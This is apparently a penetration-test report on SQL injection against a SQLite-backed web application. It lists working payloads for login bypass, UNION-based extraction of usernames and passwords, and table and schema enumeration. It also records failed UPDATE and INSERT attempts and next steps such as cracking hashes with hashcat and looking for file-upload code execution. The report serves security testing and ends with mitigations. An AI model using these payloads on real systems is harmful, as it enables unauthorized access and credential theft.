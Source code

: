# SQL Injection & Exploitation Report

## **Overview**
This document summarizes the successful SQL injection attacks performed on the target web application, detailing the methods used to bypass authentication, extract user credentials, and analyze potential privilege escalation vectors.

---
## **Successful Attacks**

### **1. Authentication Bypass**
**Payload Used:**
```sql
' OR '1'='1' --
```
**Impact:**
- Successfully logged into an account without valid credentials.
- The web application does not properly sanitize user inputs before executing SQL queries.

### **2. Extracting User Credentials**
**Payload Used:**
```sql
' UNION SELECT null, username, password FROM user --
```
**Impact:**
- Extracted usernames and password hashes from the database.
- The application allows UNION-based SQL injection.
- Passwords appear to be stored in plaintext or weakly hashed.

### **3. Identifying Database Tables**
**Payload Used:**
```sql
' UNION SELECT null, name, null FROM sqlite_master WHERE type='table' --
```
**Impact:**
- Retrieved a list of database tables.
- Identified the `user` table, which stores credentials.

### **4. Extracting Table Schema**
**Payload Used:**
```sql
' UNION SELECT null, sql, null FROM sqlite_master WHERE name='user' --
```
**Impact:**
- Retrieved the structure of the `user` table.
- Identified columns: `id`, `username`, `password`.

### **5. Extracting Password Hashes**
**Payload Used:**
```sql
' UNION SELECT id, username, password FROM user --
```
**Impact:**
- Retrieved hashed or plaintext passwords.
- Enabled offline password cracking using **hashcat** or **CrackStation**.

### **6. Modifying Account Credentials (Failed)**
**Attempted Payload:**
```sql
' OR 1=1; UPDATE user SET password='newpassword' WHERE username='admin' --
```
**Result:**
- SQLite prevents multiple queries (`You can only execute one statement at a time`).
- Direct account modification was **not possible** due to query constraints.

### **7. Creating a New Admin Account (Attempted)**
**Attempted Payload:**
```sql
' UNION SELECT null, 'hacker', 'password123' INTO user --
```
**Result:**
- The database did not allow direct INSERT statements via SQL injection.
- Further testing needed to find alternative privilege escalation.

---
## **Next Steps**
1. **Crack Retrieved Password Hashes**
   - Use **hashcat** with `rockyou.txt` for brute-force attack.
   - Check for common password reuse among extracted users.

2. **Explore Other Exploitation Methods**
   - Identify **Stored XSS vulnerabilities**.
   - Look for **file upload functionality** for potential **Remote Code Execution (RCE)**.
   
3. **Check for Error-Based SQL Injection**
   - Test `ORDER BY` to identify column count.
   - Check for alternative ways to manipulate queries.

4. **Escalate Privileges**
   - Look for hardcoded admin credentials in extracted database tables.
   - Attempt privilege escalation if file uploads or admin panels are accessible.

---
## **Security Recommendations**
To mitigate these vulnerabilities, the target web application should implement the following:
- **Use Parameterized Queries** to prevent SQL injection.
- **Encrypt Passwords Securely** using bcrypt instead of plaintext or weak hashes.
- **Restrict Database Privileges** to limit the impact of an SQL injection attack.
- **Implement Web Application Firewalls (WAF)** to block SQL injection attempts.
- **Enable Content Security Policy (CSP)** to prevent XSS and other injection attacks.

---
## **Disclaimer**
This document is intended for ethical security research and penetration testing purposes only. Any unauthorized testing or exploitation of systems without explicit permission is illegal and may result in legal consequences.

